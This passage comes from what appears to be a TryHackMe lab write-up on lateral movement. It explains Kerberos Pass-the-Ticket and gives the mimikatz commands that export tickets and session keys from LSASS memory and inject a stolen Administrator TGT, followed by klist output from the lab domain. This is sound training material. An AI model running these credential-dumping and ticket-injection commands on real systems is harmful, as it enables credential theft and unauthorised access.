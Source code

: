 3. The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.

  <img src="/assets/images/THM/Lateral%20Movement%20and%20Pivoting/9.png" width="80%">


### <font color="#FFA500">Pass-the-Ticket</font>

Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Notice that if we only had access to a ticket but not its corresponding session key, we wouldn't be able to use that ticket; therefore, both are necessary.

While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, we'll be interested in TGTs as they can be used to request access to any services the user is allowed to access. At the same time, TGSs are only good for a specific service. Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:

```
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:

```
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
```